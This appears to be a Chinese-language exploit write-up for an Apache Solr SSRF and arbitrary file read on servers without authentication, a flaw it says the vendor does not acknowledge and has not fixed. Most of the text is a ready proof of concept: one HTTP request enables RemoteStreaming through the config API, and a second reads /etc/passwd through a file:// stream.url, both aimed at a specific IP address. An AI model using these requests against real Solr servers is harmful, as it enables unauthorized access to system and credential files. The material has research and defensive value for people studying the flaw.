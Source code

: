 # Solr SSRF （官方不认，未修复）

## 漏洞描述

在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或任意文件读取。

## writeup

- 待读取文件

```
/etc/passwd
```

- 创建core

```
docker exec solr bash bin/solr create_core -c demo
```

- POC

开启RemoteStreaming

```
POST /solr/demo/config HTTP/1.1
Host: 106.53.141.62:8983
Content-Type: application/json
Content-Length: 80

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```

读文件

```
POST /solr/demo/./debug/dump?param=ContentStreams HTTP/1.1
Host: 106.53.141.62:8983
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

stream.url=file:///etc/passwd
```

## 复现结果

![](./1.png)
